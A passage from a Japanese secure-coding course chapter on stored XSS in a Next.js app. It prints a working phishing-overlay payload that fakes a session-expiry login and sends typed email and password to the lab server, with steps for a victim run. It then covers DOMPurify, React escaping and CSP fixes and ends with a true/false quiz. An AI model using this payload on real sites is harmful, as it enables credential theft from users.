background: #4f46e5; color: #fff; border: none;
border-radius: 6px; font-size: 14px; cursor: pointer;
}
#xss-modal button:hover { background: #4338ca; }
#xss-modal .close-link {
display: block; margin-top: 14px;
text-align: center; font-size: 12px; color: #6b7280; cursor: pointer;
}
</style>
<div id="xss-overlay">
<div id="xss-modal">
<h2>⚠️ セッションの有効期限が切れました</h2>
<p>セキュリティのため、再度ログインしてください。</p>
<form id="xss-form">
<input type="email" id="xss-email" placeholder="メールアドレス"
autocomplete="email">
<input type="password" id="xss-pass" placeholder="パスワード"
autocomplete="current-password">
<button type="submit">ログイン</button>
</form>
</div>
</div>
<script>
document.getElementById('xss-form').addEventListener('submit', function(e) {
e.preventDefault();
const email = document.getElementById('xss-email').value;
const pass = document.getElementById('xss-pass').value;
fetch('/api/xss?c=' + encodeURIComponent('email=' + email + '&pass=' + pass));
document.getElementById('xss-overlay').remove();
location.href = '/';
});
document.getElementById('xss-close').addEventListener('click', function() {
document.getElementById('xss-overlay').remove();
});
</script>12.4.2 2. 被害者としてページを訪問する
別のブラウザまたはシークレットウィンドウで以下にアクセスしてください。
http://localhost:3000/about/piyopiyoURLは完全に普通の見た目です。 /about/piyopiyo というパスに
XSS
を示す文字列は含まれていません。にもかかわらず、ページを開いた瞬間にオーバーレイが表示されることを確認してください。
12.4.3 3. 認証情報を入力して送信する
- オーバーレイが表示されたら、ダミーのメールアドレスとパスワードを入力してください。
- 「ログイン」ボタンをクリックしてください。
- オーバーレイが消え、トップページページにリダイレクトされることを確認してください。
12.4.4 4. 盗まれた認証情報を確認する
npx prisma studio から stolen_contents
テーブルを開いて、content
列に入力したメール・パスワードが記録されていること😭を確認してください。
12.5 なぜ /member/about の Preview では攻撃が成立しないのか
/member/about の Preview セクションは AboutView
コンポーネントを使っており、 DOMPurify.sanitize() が適用されるため
<style> や <script> タグが除去されます。
const sanitizedContent = DOMPurify.sanitize(about.aboutContent, {
ALLOWED_TAGS: ["b", "i", "font", "br"], // 許可するタグ
ALLOWED_ATTR: ["color", "size"], // 許可する属性
});一方、公開ページ /about/[slug]
ではサニタイズなしで直接出力しています。
この非対称性が脆弱性を生みます。編集画面では問題なく見えるが、公開ページでは攻撃が成立する というケースは実際のバグとして発生しやすいパターンです。
プロンプト例
同じアプリで「編集プレビューでは XSS が動かないのに、公開ページでは動く」という非対称性はなぜ起きますか？このようなバグが実際のアプリで発生しやすい理由についても教えてください。
12.6 防止策
12.6.1 1. DOMPurify によるサニタイズ（AboutView コンポーネントを使う）
/about/[slug]/page.tsx を以下のように変更してください。
import { AboutView } from "@/app/_components/AboutView";
<AboutView about={{
userName: user.name,
aboutSlug: slug,
aboutContent: user.aboutContent,
}} />AboutView 内の DOMPurify は削除方式（許可リスト）で動作するため、<style>,
<script>, onerror などをすべて除去します。
オーバーレイを構成する <style> ブロックも
<div id="xss-overlay"> も削除されるため、
攻撃ペイロードを仕込み直しても画面には何も表示されなくなります。
12.6.2 2. React のデフォルトエスケープ
HTML レンダリングが不要ならば dangerouslySetInnerHTML
を使わないのが最善策となります。
{/* <div dangerouslySetInnerHTML={{ __html: user.aboutContent }} /> */}
<div>{user.aboutContent}</div>12.6.3 3. Content Security Policy（CSP）ヘッダー（発展）
HTTP レスポンスヘッダーに CSP を設定すると、インラインの <style> や
<script> の実行を ブラウザレベルでブロックできます。
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self'Next.js では next.config.ts の headers() または
middleware.ts で設定できます。 ただし CSP
はバイパス手法も存在するため、サニタイズの代替ではなく追加の防御層として扱います。詳しくは次週で扱います。
12.6.4 📝演習
/about/[slug]/page.tsx の脆弱性を修正してください。
12.6.5 定着確認
以下の説明は「正しい」か「正しくない」かを答えよ。
httpOnly: trueが設定されていれば、フィッシングオーバーレイによるパスワード窃取を防ぐことができる。- 答え：正しくない。
httpOnlyは Cookie を JavaScript から保護しますが、ユーザが自分でフォームに入力した値を守ることはできません。フォームの入力値は JS から常に読み取れます。
- 答え：正しくない。
dangerouslySetInnerHTMLを使っても、DOMPurify でサニタイズすれば XSS を防げる。- 答え：正しい。
ただし DOMPurify のALLOWED_TAGS/ALLOWED_ATTRの設定が適切に絞り込まれていることが前提です。
- 答え：正しい。
- DOMPurify はブラックリスト方式で動作するため、新しい攻撃手法にも対応できる。
- 答え：正しくない。
DOMPurify は削除方式（許可リスト）で動作します。ブラックリスト方式は既知の悪意あるパターンを列挙する方式であり、新手法には脆弱です。
- 答え：正しくない。
- CSP を設定すれば、サニタイズなしでも XSS を防止できる。
- 答え：正しくない。
CSP にはバイパス手法が存在し、サニタイズの代替にはなりません。サニタイズと組み合わせる多層防御として扱ってください。
- 答え：正しくない。